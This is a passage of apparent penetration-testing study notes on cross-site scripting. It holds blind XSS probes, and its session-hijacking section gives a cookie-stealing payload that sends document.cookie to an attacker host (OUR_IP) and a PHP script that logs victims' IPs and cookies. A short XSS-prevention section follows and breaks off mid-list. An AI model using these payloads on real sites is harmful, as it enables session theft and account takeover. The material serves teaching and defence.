 >\<img src="" onerror=http://OUR_IP/fullname />
>
>
>\<img src="" onerror=http://OUR_IP/username />
>```

>[!code]- Session hijacking
>###### Have the XSS vulnerability retrieve a malicious JS script
>```html
>
>\<script src=http://OUR_IP/script.js>\</script>
>```
>###### Have the `script.js` file request an `index.php` file from our server, with a `c` parameter set to the victim's cookies
>```javascript
>new Image().src='http://OUR_IP/index.php?c='+document.cookie
>```
>###### The `index.php` file
>Processes the cookies received, in case multiple are received.
>```php
>// remove non-string backslashes
>\<?php
> if (isset($\_GET['c'])) {
>    $list = explode(";", $\_GET['c']);
>    foreach ($list as $key => $value) {
>        \$cookie = urldecode($value);
>        $file = fopen("cookies.txt", "a+");
>        fputs(\$file, "Victim IP: {\$\_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
>        fclose($file);
>    }
>}
>?>
>```
>###### Use the obtained session cookie to login as that user
>Add the cookie to the web browser (via `Storage` in Dev Tools).
>
>![Pasted image 20250401060619](Images/Pasted%20image%2020250401060619.png)
>
>Once the cookie has been added, refresh the page to load it with the added cookie.
>
>![Pasted image 20250401060652](Images/Pasted%20image%2020250401060652.png)

>[!code]- XSS prevention
>###### Validate user input
>Check that what the user inputs is in a format that that input field would expect (eg does it look like an email?). Do this on both the front end and back end.
>
>###### Sanitise user input
>Check that the user input does not include things like javascript code. Check on both the front-end and back-end. If so, escape the special characters that would allow the javascript code to execute.
>
>###### Never directly inject user input into HTML code
>Never use user input directly within certain HTML tags, like:
>```html
>JavaScript code <script></script>
>CSS Style Code <style></style>
>Tag/Attribute Fields <div name='INPUT'></div>
>HTML Comments 
>```
>Be careful with these jQuery functions which can change raw text of HTML field:
>```javascript
>html()